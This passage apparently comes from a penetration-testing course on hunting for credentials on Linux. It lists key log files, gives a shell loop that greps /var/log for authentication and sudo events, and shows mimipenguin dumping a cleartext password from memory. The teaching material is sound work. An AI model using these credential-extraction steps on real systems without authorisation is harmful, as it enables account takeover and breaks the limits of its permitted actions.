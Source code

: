Many different logs exist on the system. These can vary depending on the applications installed, but here are some of the most important ones:
|**Log File**|**Description**|
|---|---|
|`/var/log/messages`|Generic system activity logs.|
|`/var/log/syslog`|Generic system activity logs.|
|`/var/log/auth.log`|(Debian) All authentication related logs.|
|`/var/log/secure`|(RedHat/CentOS) All authentication related logs.|
|`/var/log/boot.log`|Booting information.|
|`/var/log/dmesg`|Hardware and drivers related information and logs.|
|`/var/log/kern.log`|Kernel related warnings, errors and logs.|
|`/var/log/faillog`|Failed login attempts.|
|`/var/log/cron`|Information related to cron jobs.|
|`/var/log/mail.log`|All mail server related logs.|
|`/var/log/httpd`|All Apache related logs.|
|`/var/log/mysqld.log`|All MySQL server related logs.|


Covering the analysis of these log files in detail would be inefficient in this case. So at this point, we should familiarize ourselves with the individual logs, first examining them manually and understanding their formats. However, here are some strings we can use to find interesting content in the logs:

```shell-session
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```
## Memory and Cache
Many applications and processes work with credentials needed for authentication and store them either in memory or in files so that they can be reused.
	In order to retrieve this type of information from Linux distributions, there is a tool called [mimipenguin](https://github.com/huntergregal/mimipenguin) that makes the whole process easier. However, this tool requires administrator/root permissions.

#### Memory - Mimipenguin

```shell-session
cry0l1t3@unixclient:~$ sudo python3 mimipenguin.py
[sudo] password for cry0l1t3: 

[SYSTEM - GNOME]	cry0l1t3:WLpAEXFa0SbqOHY


cry0l1t3@unixclient:~$ sudo bash mimipenguin.sh 
[sudo] password for cry0l1t3: 

MimiPenguin Results:
[SYSTEM - GNOME]          cry0l1t3:WLpAEXFa0SbqOHY
```
An even more powerful tool we can use that was mentioned earlier in the Credential Hunting in Windows section is `LaZagne`. This tool allows us to access far more resources and extract the credentials. The passwords and hashes we can obtain come from the following sources but are not limited to:
